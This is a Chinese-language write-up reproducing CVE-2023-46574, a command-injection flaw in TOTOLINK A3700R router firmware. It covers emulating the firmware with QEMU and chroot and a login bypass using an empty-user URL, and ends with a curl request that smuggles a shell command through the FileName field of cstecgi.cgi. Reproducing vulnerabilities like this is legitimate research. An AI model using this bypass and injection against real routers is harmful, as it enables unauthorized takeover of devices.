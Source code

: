 
TOTOLINK 命令执行 CVE-2023-46574

- - -

# TOTOLINK 命令执行 CVE-2023-46574

## 搭建 qemu mipsel 环境

```bash
sudo apt-get install schroot debootstrap
ubuntu20
debootstrap --arch=mipsel bookworm /iotconfig/debootstrap/mipsel https://mirrors.aliyun.com/debian
```

[![](assets/1708919915-a649f4c54a58e40e31e5da2e7ab5ea80.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216220854-ead62014-ccd4-1.png)  
然后配置 schroot

```bash
sudo vim /etc/schroot/chroot.d/mipsel.conf
```

```bash
[mipsel]
type=directory
directory=/iotconfig/debootstrap/mipsel/
users=root
groups=root
root-groups=root
```

然后就可以看到已经配置上了

[![](assets/1708919915-40bfa708d0e0d88add8bff44ce5e17db.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216220930-00c22a1c-ccd5-1.png)  
之后直接 schroot 进入

```bash
sudo schroot -c chroot:mipsel -u root
```

[![](assets/1708919915-7fc80804bdc97cbbdc5c72628423e932.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216220941-073e4cd6-ccd5-1.png)

## 漏洞分析

在 cstecgi.cgi 程序中

[![](assets/1708919915-436d56d3102815927e106271b936cf8d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221000-1257c476-ccd5-1.png)  
FileName 没有检查放入 doSystem，所以这里有命令执行漏洞

## 固件模拟

```bash
sudo binwalk --run-as=root -Me TOTOLINK_A3700R_V9.1.2u.6165_20211012.web
```

[![](assets/1708919915-7fc56e0300d1aa2a079ac9cbd5711c42.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221019-1d838e70-ccd5-1.png)  
查看目录，里面有个 lighttpd 文件夹，所以这里用的是 lighttpd 服务

[![](assets/1708919915-6d3f1d4a01c43f1aa9e4093c33e7a9f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221149-53403cd4-ccd5-1.png)  
在 lighttpd 目录下找到了配置文件

[![](assets/1708919915-3ab15f4ec88c48743bdf044f0648f3f2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221157-584f8586-ccd5-1.png)  
这里 lighttpd 是通过 lighttpd -f \[配置文件\]来启动的

```bash
sudo cp -r squashfs-root /iotconfig/debootstrap/mipsel/root/
```

然后将 squashfs-root 复制到安装的 mipsel 系统上

[![](assets/1708919915-8ec8711ef8acfeffe5d801c150913541.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221216-63a5712a-ccd5-1.png)  
进入 mipsel 系统，然后再 chroot 进入 squashfs-root 目录下

```bash
sudo schroot -c chroot:mipsel -u root
chroot squashfs-root/
```

[![](assets/1708919915-f65352104dc001a36a13f73198c6254a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221231-6c7fda24-ccd5-1.png)  
然后直接启动服务即可

```bash
lighttpd -f lighttp/lighttpd.conf
```

[![](assets/1708919915-51454ead13228ae08e72896aa036682c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221239-71762c72-ccd5-1.png)

```bash
这里如果没启动成功，只需要在/var/run 目录下创建一个 lighttpd.pid 文件即可
mkdir /var/run
touch /var/run/lighttpd.pid
```

然后就能进入路由器登录界面了

[![](assets/1708919915-0fe33dc5ea1d83097c60001c7bc696e8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221259-7d5e3160-ccd5-1.png)

## 绕过登录

因为没设置密码，所以直接抓包，空密码登录

[![](assets/1708919915-9278d7cb6d3fecf2b4019e44e044f111.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221311-847b51bc-ccd5-1.png)  
没直接进入，但是可以看到地址  
[http://127.0.0.1/formLoginAuth.htm?authCode=1&userName=&goURL=home.html&action=login](http://127.0.0.1/formLoginAuth.htm?authCode=1&userName=&goURL=home.html&action=login)

[![](assets/1708919915-48b7d02cfb785eac0e5464bdbffe9f8d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221320-89925b78-ccd5-1.png)  
直接访问即可

[![](assets/1708919915-d0e64867e06e13d679e7da477d596636.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221327-8e0d3bd2-ccd5-1.png)

## 命令执行

拿到 session id

[![](assets/1708919915-488c8ea0dfc6920b2726d1b4bc48805b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221342-97089114-ccd5-1.png)

```bash
curl http://127.0.0.1/cgi-bin/cstecgi.cgi -b "SESSION_ID=2:1708017806:2" -X POST -d '{"topicurl":"UploadFirmwareFile","FileName":";ls -a;"}'
```

[![](assets/1708919915-6e417d9aef16cffaecf1fdfd7863e275.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216221402-a2eee3ca-ccd5-1.png)

![](assets/1708919915-d03a5e4b40ff92d0dd5ebf3823a3802c.gif)TOTOLINK\_A3700R\_V9.1.2u.6165\_20211012.zip (8.658 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20240216221624-f78081d2-ccd5-1.zip)
